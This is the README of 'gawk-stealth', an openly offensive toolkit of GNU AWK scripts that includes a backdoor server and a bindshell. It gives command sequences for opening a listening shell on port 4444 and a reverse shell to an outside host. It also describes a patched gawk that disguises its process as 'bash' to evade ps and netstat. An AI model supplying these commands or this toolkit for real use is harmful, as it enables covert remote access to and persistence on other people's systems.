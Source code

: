 [gawk-stealth](http://gitbrew.org/gawk)  
========================================
##Copyright (C) 2012-2013 Iadnah [<iadnah@uplinklounge.com>](mailto:iadnah@uplinklounge.com)  
##gawk-stealth is distributed under the GNU GPL  
  
  
###SYNOPSIS  
  
Gawk-Stealth consists of two parts: a set of scripts that can be run from within GNU AWK (using the -f option), and a statically linked 32-bit version of GNU AWK that is patched with our Romulan Cloaking technology.  
  
The scripts included in gawk-stealth are:  
* banner_grab.gawk - simple awk banner grabber
* banner_grab_pastable.gawk - one-line pastable version of the banner grabber
* gawk_get.gawk - script to make an HTTP (no HTTPS) request and dump output to STDOUT
* gawk_http_bnc.gawk - Listens on a port and when a connection is made to it, performs an HTTP request as configured and redirects output to connecting host
* gawkserv.gawk - Very simple POC backdoor server
* rgawkcmd-0.2.gawk - Full-featured bindshell with listen, reverse-connect, and authentication options
  
###COMPILING gawk32.static    
  
To compile, untar the version of gawk in static_gawk, apply the gawk-3.1.8_gawkhide.patch, and compile using the makestatic script.  
  
###SAMPLE USES  
  
The main script of interest is rgawkcmd-0.2.gawk.  When using it, the most important thing to keep in mind is that options are set using environmental variables.  In bash, you may set these with the export command, or to make more persistent you can add the env vars to .bashrc in the home directory.  

To make a listening bindshell with rgawkcmd-0.2.gawk, issue the following commands:  

	$ export RGC_LPORT=4444
	$ export RGC_MODE="listen"
	$ gawk -f rgawkcmd-0.2.gawk

This will open up a listening bindshell on port 4444.  To do a reverse bindshell, you would enter:  

	$ export RGC_MODE="remote"
	$ export RGC_RPORT=4444
	$ export RGC_HOST="totallylegitimate.nationalbankofuganda.com"
	$ gawk -f rgawkcmd-0.2.gawk
	
###ROMULAN CLOAKING TECHNOLOGY

In order to turn on Romulan Cloaking Device (reverse engineered by CDR Data from a Romulan Warbird captured by CPT Jean-Luc Picard), set GAWK_HIDE to anything but NULL.  Example:  

	$ export GAWK_HIDE=1
	
This changes argv[0] to read "bash" (for ps and netstat purposes).  
NOTE: this requires you use patched version of GNU AWK included with this package.  

##LICENSE  
gawk-stealth Copyright (C) 2012 Iadnah <iadnah@uplinklounge.com>

This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation; either version 2 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program; if not, write to the Free Software Foundation, Inc., 59 Temple Place, Suite 330, Boston, MA 02111-1307 USA

See the COPYING file for more information.

---
Iadnah [<iadnah@guplinklounge.com>](mailto:iadnah@uplinklounge.com)
